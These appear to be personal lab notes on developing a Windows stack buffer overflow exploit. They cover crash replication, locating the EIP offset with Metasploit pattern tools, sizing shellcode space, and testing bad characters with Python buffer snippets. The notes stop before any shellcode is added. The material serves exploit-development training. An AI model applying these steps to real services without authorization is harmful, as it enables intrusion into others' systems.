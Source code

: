 
TCP View Stored at: `C:\Tools\windows_buffer_overflows`  find the process listening on port 80  
Run Immunity Debug with admin  

## Replicate the crash
## Control EIP
### Binary Search
AAAABBBB, then AAAABBCC then AAAABBCD until locate the eip  

generate non-repeat pattern  
`msf-pattern_create -l 800`  

eip replaced with `42306142`  -> `B0aB`  
```
└─$ msf-pattern_offset -l 800 -q 42306142                                                                          
[*] Exact match at offset 780
``` 

## Locating space for shell code  
usually shell code length 350 - 400 bytes  
esp locate at BBBBCCCCESP!  

```
filler = "A" * 780
eip = "B" * 4
offset = "C" * 4
buffer = "D" * (1500 - len(filler) - len(eip) - len(offset))
inputBuffer = filler + eip + offset + buffer
```  
esp point to buffer  

## checking for bad chars
`0x00`  use to terminate string  

```
badchars = (
"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
"\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
"\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
"\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
"\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
"\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
"\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
"\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff" )

inputBuffer = filler + eip + offset + badchars
```
